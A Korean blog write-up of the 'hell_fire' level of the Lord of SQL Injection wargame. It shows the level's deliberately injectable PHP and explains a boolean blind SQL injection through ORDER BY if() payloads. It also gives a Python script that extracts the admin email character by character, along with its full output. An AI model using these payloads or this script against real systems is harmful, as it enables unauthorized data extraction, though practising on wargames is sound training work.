 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - hell_fire 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제에는 위에 갑자기 표가 나온다.  

그리고 `pw`를 맞추는게 아니라 이번에는 `email` 주소를 알아야 한다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id,email,score from prob_hell_fire where 1 order by
------------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|proc|union/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}";
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysql_query($query);
  while(($result = mysql_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_hell_fire where id='admin' and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("hell_fire");
  highlight_file(__FILE__);
?>
```

코드를 살펴보면 내가 입력한 값은 `order by` 뒤에 들어간다.  

그리고 `id, email, score`를 추출 하는데, 이 때 `admin`의 `email` 주소는 `**************`로 처리된다.  

쿼리문 위에는 표가 나타나는데, 형태는 다음과 같다.  

|id|   |email|   |score|
|---|---|---|---|---|
| |   | |   | |

일단 무슨 값이 저장되어 있는지 확인하기 위해서, `?order=id`를 입력해 보았다.  

그랬더니 표에 다음과 같이 데이터가 나왔다.  

|id|   |email|   |score|
|---|---|---|---|---|
|admin|   |**************|   |200|
|rubiya|   |rubiya805@gmail.cm|   |100|

그래서 문제를 어떻게 풀어야하는지 고민하다가, `order by` 뒤에 `if`문을 사용할 수 있다는 사실을 깨달았다.  

내가 처음에 생각 한 방법은, `?order=if(id='admin' and length(email)>0, score, id)`를 쿼리스트링으로 넘겨주는 것이었다.  

그럼 쿼리문이 아래와 같이 완성된다.  

```
select id,email,score from prob_hell_fire where 1 order by if(id='admin' and length(email)>0, score, id)
```

그렇다면 만약 `id`가 `admin`이고, 그 `email`의 길이가 `0`보다 크다면 조건이 참이기 때문에 `score`를 기준으로 정렬 할 것이고, 아니라면 `id`를 기준으로 정렬 할 것이라고 생각했다.  

그럼 참이라면 `rubiya` 행이, 거짓이라면 `admin`의 행이 위에 나타나게 될 것이다.  

실제로 내가 데이터베이스에서 테스트 해 보면 정상적으로 실행 됬었다.  

그런데 문제에서는 그게 안됬다.  

`id`를 `rubiya`로 두고 테스트를 할 때는 제대로 참, 거짓에 따라 `score` 혹은 `id`를 기준으로 정렬했다.  

그런데 `id='admin'`으로 두고 테스트 하면 무조건 `admin`인 행이 위에 나온다.  

왜 때문인지 모르겠다.  

그리고 또 한가지 이상한 점이 있는데, 쿼리스트링으로 `?order=if(id='admin' and length(email)>0, score, 9999)`를 넘겨주면 일단 참, 거짓 반응을 구분할 수 있다.  

하지만 `참`일 때 `score`를 기준으로 정렬하는게 아니라, `거짓`일 때 `score`를 기준으로 정렬을 해 조건이 맞지 않으면 `rubiya`가 위에 나왔다.  

얘도 왜그러는지 모르겠다...ㅎ  

그런데 어쨌든 참, 거짓에 따라 결과가 구분이 되길래 아래와 같이 코드를 짜서 돌려 보았다.  

만약 값이 참이라면 `admin` 행이, 거짓이라면 `rubiya` 행이 위에 나와서, `admin` 행이 위에 나온다면 그 값을 뽑아오게 했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/hell_fire_309d5f471fbdd4722d221835380bb805.php?order="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 30):
	try:
		query = url + "if((id='admin' and length(email)=" + str(i) + "), score, 9999)"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue
	if '<td>200</td></tr><tr><td>rubiya</td>' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(33, 128):
		try:
			query = url + "if((id='admin' and ord(substr(email, " + str(j) + ", 1))=" + str(i) + "), score, 9999)"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if '<td>200</td></tr><tr><td>rubiya</td>' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

그랬더니 소스코드가 정상적으로 실행되서 문제를 풀 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  28
[+] Find password
[+] Found 1 : a
[+] Found 2 : ad
[+] Found 3 : adm
[+] Found 4 : admi
[+] Found 5 : admin
[+] Found 6 : admin_
[+] Found 7 : admin_s
[+] Found 8 : admin_se
[+] Found 9 : admin_sec
[+] Found 10 : admin_secu
[+] Found 11 : admin_secur
[+] Found 12 : admin_secure
[+] Found 13 : admin_secure_
[+] Found 14 : admin_secure_e
[+] Found 15 : admin_secure_em
[+] Found 16 : admin_secure_ema
[+] Found 17 : admin_secure_emai
[+] Found 18 : admin_secure_email
[+] Found 19 : admin_secure_email@
[+] Found 20 : admin_secure_email@e
[+] Found 21 : admin_secure_email@em
[+] Found 22 : admin_secure_email@ema
[+] Found 23 : admin_secure_email@emai
[+] Found 24 : admin_secure_email@emai1
[+] Found 25 : admin_secure_email@emai1.
[+] Found 26 : admin_secure_email@emai1.c
[+] Found 27 : admin_secure_email@emai1.co
[+] Found 28 : admin_secure_email@emai1.com
[+] Found password :  admin_secure_email@emai1.com
[+] End
```

이 이메일 주소를 아래와 같이 쿼리스트링으로 넘겨주었더니 문제를 풀 수 있었다.  

```
?email=admin_secure_email@emai1.com
```

근데 왜 처음에 생각한 방법이 먹히지 않는지, 왜 거짓일 때 `score`를 기준으로 정렬하는지는 아직도 모르겠다.  

나중에 알게된다면 정리 해 둬야겠다.  

```php
------------------------------------------------------------------------------------------
query : select id,email,score from prob_hell_fire where 1 order by
------------------------------------------------------------------------------------------

HELL_FIRE Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|proc|union/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}";
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysql_query($query);
  while(($result = mysql_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_hell_fire where id='admin' and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("hell_fire");
  highlight_file(__FILE__);
?>
```

`HELL_FIRE Clear!!`
